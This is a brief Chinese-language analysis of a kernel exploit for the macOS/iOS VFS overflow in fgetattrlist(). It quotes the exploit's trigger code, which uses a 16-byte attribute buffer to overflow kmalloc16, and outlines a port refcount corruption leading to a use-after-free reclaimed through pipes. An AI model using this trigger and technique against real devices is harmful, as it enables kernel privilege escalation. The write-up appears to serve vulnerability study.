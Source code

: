 # vfs溢出

## Getattrlist

getattrlist()函数返回文件系统对象的属性（即元数据）。getattrlist()函数用在文件是路径时，而fgetattrlist()则用在文件是文件描述符时。

除了路径是相对路径时，系统调用getattrlistat()等价于getattrlist()。路径是相对路径时，返回相对于文件描述符（而非当前工作路径）的path路径的属性。如果getattrlistat()的fd参数是AT_FDCWD，使用的是当前工作目录，此时与调用getattrlist()效果一致。


int fgetattrlist(int fd, struct attrlist *attrList, void * attrBuf, size_t attrBufSize,unsigned long options);

 
 
 ## exp分析
 
 ```
 static void do_vfs_overflow()
{
    int options = 0;
    int err = fgetattrlist(vfs_fd, &al, attrBuf, attrBufSize, options);
    //LOG("err: %d", err);
}
 ```
可以看到，程序是用了这个函数进行溢出

程序溢出是在kmalloc16中，查看attrBufSize大小
```

static int vfs_fd = -1;
static struct attrlist al = { 0 };
static size_t attrBufSize = 16;
static void* attrBuf = NULL;
static void prepare_vfs_overflow()
{

    vfs_fd = open("/", O_RDONLY);
    if (vfs_fd == -1) {
        perror("unable to open fs root\n");
        return;
    }

    al.bitmapcount = ATTR_BIT_MAP_COUNT;
    al.volattr = 0xfff;
    al.commonattr = ATTR_CMN_RETURNED_ATTRS;

    attrBuf = malloc(attrBufSize);
}
```
刚好16，也就是说程序没有检查最小大小，导致溢出了8个0
作者貌似将kmalloc16与port页面紧贴在一起然后，通过溢出改写port的refer构造uaf
然后通过active进行检测是否正确

最后通过gc将数据变为pipe，修改port数据构造利用

具体用了很多堆排布，我就不具体分析了
